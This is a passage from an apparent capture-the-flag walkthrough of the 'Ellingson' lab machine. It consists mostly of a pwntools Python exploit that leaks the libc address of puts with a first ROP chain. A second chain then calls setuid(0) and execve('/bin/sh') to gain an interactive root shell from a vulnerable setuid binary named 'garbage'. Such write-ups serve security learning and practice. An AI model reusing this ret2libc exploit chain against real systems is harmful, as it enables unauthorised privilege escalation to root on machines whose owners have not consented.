 ```
# we try to use rop from pwntools to found the leaked_put (real adresse) theses adrsses are static in the binary 
rop.puts(garbage.got['puts'])
rop.call(garbage.symbols['main'])
log.info('stage 1 ROP Chain :' + rop.dump())

payload= junk + str(rop)
p.recvuntil("password:")
p.sendline(payload)
p.recvuntil("denied.\n") 

leaked_puts = p.recv()[:6].strip().ljust(8, '\x00') # error take me a lot of time, i have a wrong leaked addresse cause , it take 8 byte and adresse was about 6 byte so i have to read just the first 6 bytes
log.success("Leaked puts@GLIBCL: "+ str(leaked_puts))
leaked_puts = u64(leaked_puts)

# stage 2 
libc.address  = leaked_puts - libc.symbols['puts']
rop2= ROP(libc)
rop2.call(libc.symbols['setuid'],[0]) #setuid(0)
rop2.call(libc.symbols['execve'], [next(libc.search('/bin/sh\x00')), 0, 0]) # execve("/bin/sh",Null,Null)
log.info('Stage 2 ROP cHAIN :\N'+rop2.dump())
payload = junk +str(rop2)
p.sendline(payload)
p.recvuntil("denied.")
p.interactive()
```

## Root dance
![root](https://github.com/roughiz/Ellingson-walktrough/blob/master/root.png)



















